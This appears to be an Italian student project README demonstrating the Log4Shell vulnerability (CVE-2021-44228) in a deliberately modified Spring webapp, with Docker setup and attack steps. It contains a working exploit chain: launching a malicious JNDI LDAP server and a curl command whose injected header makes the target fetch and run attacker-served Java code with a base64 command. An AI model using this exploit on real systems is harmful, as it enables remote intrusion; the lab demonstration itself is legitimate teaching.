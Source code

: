 # Progetto sicurezza Informatica ICDA A.A 2021-2022

Lo scopo di questo progetto è quello di mostrare la vulnerabilità Log4shell CVE-2021-44228 che affligge la libreria Java Log4j , impiegata da innumerevoli software di ogni tempo (programmi standard, giochi, webapp).

In questo progetto è stata scelta una webapp spring (popolare web framework Java MVC), opportunamente modificata per lo scopo.

La parte da me modificata si trova nel controller "HomeController", file "HomeController.java"

La libreria impiegata di log4J 2.6.1.
Nel progetto è presente il file pom.xml per la compilazione tramite Maven.
Ho creato un DockerFile che contiene al suo interno tutto il necessario per avviare l'immagine senza alcuna configurazione e senza installare la JDK necessaria per dimostrare l'exploit.

## Utilizzo
Prima di tutto sarà necessario avviare un server mysql e impostare il relativo indirizzo, username e password nel file "application.properties", all'interno della cartella "resources". è possibile utilizzare un container docker allo scopo.

Successivamente sarà necessario avviare il server LDAP che servirà la classe Java con il Payload.


```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i tuo-indirizzo-ip-privato -p 8888
```



Per sfruttare la vulnerabilità è necessario  creare un payload (un comando che si vuole far eseguire al server remoto). Esempio:

```bash
touch /tmp/hacked
```

e includerlo (codificato in base64) in una richiesta da inviare al server della webApp. Si userà il comando Curl per lo scopo.

Una volta inviato il comando, il metodo della libreria Log4j interpreterà il comando, sarà scaricata ed eseguita  una classe Java dal server LDAP (controllato dall'attaccante)  e successivamente avverrà l'esecuzuzione del payload, contenuto all'interno della classe Java scaricata nel passo precedente. Esempio di comando valido:

```bash
curl -A '${jndi:ldap://192.168.10.128:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}' http://172.18.0.2:8080
```

## Avvio web-app

```bash
docker run --name nomeApplicazione -p 8080:8080 --network nomeRete
```




Successivamente sarà possibile notare dai log del server LDAP che è stata servita la classe Java al server della webapp, con il relativo payload.
A seconda del comando eseguito, è possibile vedere il risultato. Ad esempio, se il payload provoca la creazione di file, è possibile entrare nel container e verificarlo. Ad esempio:


```bash
docker exec -it nomeApplicazione sh
```

```bash
ls /tmp/hacked
```





```

## Contributing
La webApp impiegata in questo progetto è stata creata dall'autore GNico (github: https://github.com/GNico/spring-eshop )


Il server LDAP è stato creato da feihong-cs.


La libreria Log4J è di Apache Software foundation https://logging.apache.org/log4j/2.x/index.html

Integrazione libreria Log4J nella webApp e containerizzazione: Andrea Carro



## License
[MIT](https://choosealicense.com/licenses/mit/)
